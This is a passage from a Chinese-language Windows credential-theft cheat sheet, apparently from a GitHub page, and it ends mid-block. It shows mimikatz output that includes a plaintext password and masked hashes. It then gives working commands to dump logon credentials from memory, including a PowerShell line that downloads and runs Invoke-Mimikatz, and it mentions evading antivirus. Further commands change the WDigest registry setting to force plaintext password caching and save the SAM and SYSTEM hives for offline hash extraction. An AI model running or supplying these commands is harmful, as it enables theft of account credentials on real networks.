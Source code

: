         credman :
Authentication Id : 0 ; 2138016 (00000000:00209fa0)
Session           : Service from 0
User Name         : dmadmin
Domain            : xx
Logon Server      : WIN-VEG0FAB6OQS
Logon Time        : 3/7/2018 3:23:17 PM
SID               : S-1-5-21-970513389-3385549917-1141547890-1119
        msv :
         [00000003] Primary
         * Username : dmadmin
         * Domain   : xx
         * NTLM     : xxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxx
         [00010000] CredentialKeys
         * NTLM     : xxxxxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxx
        tspkg :
        wdigest :
         * Username : dmadmin
         * Domain   : xx
         * Password : 1234!qw
        kerberos :
         * Username : dmadmin
         * Domain   : xx.com
         * Password : (null)
        ssp :
        credman :
```
导出当前 内存 hash，需要免杀过av等

	mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
	powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

Windows Server 2012,部分Windows Server 2008默认无法使用mimikatz导出明文口令
解决方法：启用Wdigest Auth
cmd:

	reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

powershell:

	Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1  

重启或者用户再次登录，能够导出明文口令  
[3gstudent自动Dump-Clear-Text-Password-after-KB2871997-installed](https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed)

## SAM-hash
---
管理权限：

	reg save HKLM\SYSTEM Sys.hiv
	reg save HKLM\SAM Sam.hiv

mimikatz:

	lsadump::sam /sam:Sam.hiv /system:Sys.hiv
	
```
mimikatz # lsadump::sam /sam:SamBkup.hiv /system:SystemBkup.hiv